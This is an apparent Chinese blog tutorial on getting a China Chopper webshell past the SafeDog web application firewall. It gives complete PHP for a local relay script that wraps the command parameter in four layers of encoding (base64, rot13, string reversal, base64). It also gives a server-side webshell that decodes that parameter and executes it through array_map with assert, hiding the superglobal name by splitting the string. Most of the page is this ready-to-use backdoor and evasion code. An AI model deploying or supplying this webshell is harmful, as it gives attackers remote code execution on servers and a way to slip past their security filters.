




前言
若服务器安装了安全狗，普通一句话安全狗肯定拦截，菜刀必然无法使用。
究其原因：菜刀请求关键字等被安全狗识别导致中断请求。
构造本地中转脚本，本地服务器发送请求，对菜刀请求关键字进行编码，服务端再对请求解码，这样安全狗无法识别也就无法拦截请求。
客户端
客户端即中转脚本transfer.php
客户端对菜刀请求参数进行编码操作，此处仅做简单编码验证bypass，编码顺序依次为
base64_encode(),
str_rot13(),
strrev(),
base64_encode()
经过这4层编码，对服务端发送请求。
客户端：transfer.php1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
| <?php
function encode($str){
$DS = base64_encode($str);
$DS = str_rot13($DS);
$DS = strrev($DS);
$DS = base64_encode($DS);
return $DS;
}
$webshell = 'http://127.0.0.1/transServ.php';
$pdata = $_POST;
foreach($pdata as $key=>$value){
if(is_array($value)){
$value=implode($value);
}
if($key == 'pass') {
$pdata[$key] = encode($value);
}
}
$data = http_build_query($pdata);
$opts = array (
'http' => array (
'method' => 'POST',
'header'=> "Content-type: application/x-www-form-urlencoded\r\n" . "Content-Length: " . strlen($data) . "\r\n",
'content' => $data)
);
$context = stream_context_create($opts);
$html = @file_get_contents($webshell, false, $context);
echo $html;
?>
|
服务端
服务端只需对请求进行解码操作，然后正常使用菜刀一句话即可，解码顺序依次为
base64_decode(),
str_rot13(),
strrev(),
base64_decode()
此处使用array_map()回调后门，为保证新旧菜刀均可使用
版本需求：php>5.2
服务端：transServ.php1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
| <?php
$DS = @${"_P"."OST"}['pass'];
if (!empty($DS) ){
echo $DS."<br>";
$DS = @base64_decode($DS);
echo $DS."<br>";
$DS = @strrev($DS);
echo $DS."<br>";
$DS = @str_rot13($DS);
echo $DS."<br>";
$DS = @base64_decode($DS);
echo $DS."<br>";
@array_map(assert,(array)$DS);
exit;
}
?>
|
连接
浏览器验证

菜刀连接
连接本地中转脚本，中转脚本对webshell发送编码后请求。

bypass安全狗

